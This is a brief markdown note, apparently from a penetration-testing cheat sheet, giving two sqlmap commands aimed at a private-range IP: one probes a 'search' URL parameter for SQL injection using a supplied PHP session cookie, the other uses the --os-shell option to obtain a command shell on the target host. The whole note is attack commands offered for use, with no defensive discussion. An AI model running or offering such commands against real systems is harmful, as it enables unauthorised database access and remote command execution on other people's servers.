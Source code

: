 # SQL Map

Use sqlmap to test a URL parameter for SQLi vulnerability

```bash
# note that here we're providing a cookie too, reqd for auth in this case
sqlmap -u 'http://10.123.32.1/dashboard.php?search=dummyparam' --cookie="PHPSESSID=cbu4s4g076c6hvgn9tq2jn8a4t"
```

Use sqlmap to try and pop a shell on the host

```bash
sqlmap -u 'http://10.123.32.1/dashboard.php?search=dummyparam' --cookie="PHPSESSID=cbu4s4g076c6hvgn9tq2jn8a4t" --os-shell
```